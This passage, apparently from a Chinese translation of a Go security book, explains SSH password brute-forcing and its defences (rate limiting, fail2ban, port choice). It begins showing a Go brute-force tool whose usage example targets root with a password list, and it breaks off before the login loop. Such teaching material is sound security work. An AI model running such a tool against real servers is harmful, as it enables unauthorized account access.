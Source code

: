 ```go
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
      numThreads -= 1 
   } 
} 
```

# 暴力破解 SSH

安全外壳或 SSH 支持几种身份验证机制。如果服务器只支持公钥身份验证，那么暴力破解几乎是徒劳的。这个例子只会讨论 SSH 的密码身份验证。

为了防止这样的攻击，实施速率限制或使用类似 fail2ban 的工具，在检测到一定数量的登录失败尝试时，锁定帐户一段时间。还要禁用 root 远程登录。有些人喜欢将 SSH 放在非标准端口上，但最终放在高端口号的非受限端口上，比如`2222`，这不是一个好主意。如果您使用高端口号的非特权端口，另一个低特权用户可能会劫持该端口，并在其位置上启动自己的服务。如果要更改端口，将 SSH 守护程序放在低于`1024`的端口上。

这种攻击显然在日志中很吵闹，容易被检测到，并且被 fail2ban 等工具阻止。但如果您正在进行渗透测试，检查速率限制或帐户锁定是否存在可以作为一种快速方法。如果没有配置速率限制或临时帐户锁定，暴力破解和 DDoS 是潜在的风险。

运行此程序需要从[golang.org](http://www.golang.org)获取一个 SSH 包。您可以使用以下命令获取它：

```go
go get golang.org/x/crypto/ssh
```

安装所需的`ssh`包后，可以运行以下示例：

```go
package main 

import ( 
   "bufio" 
   "fmt" 
   "log" 
   "os" 

   "golang.org/x/crypto/ssh" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force SSH Password 

Passwords should be separated by newlines. 
URL should include hostname or ip with port number separated by colon 

Usage: 
  ` + os.Args[0] + ` <username> <pwlistfile> <url:port> 

Example: 
  ` + os.Args[0] + ` root passwords.txt example.com:22 
`) 
} 

func checkArgs() (string, string, string) { 
   if len(os.Args) != 4 { 
      log.Println("Incorrect number of arguments.") 
      printUsage() 
      os.Exit(1) 
   } 

   // Username, Password list filename, URL 
```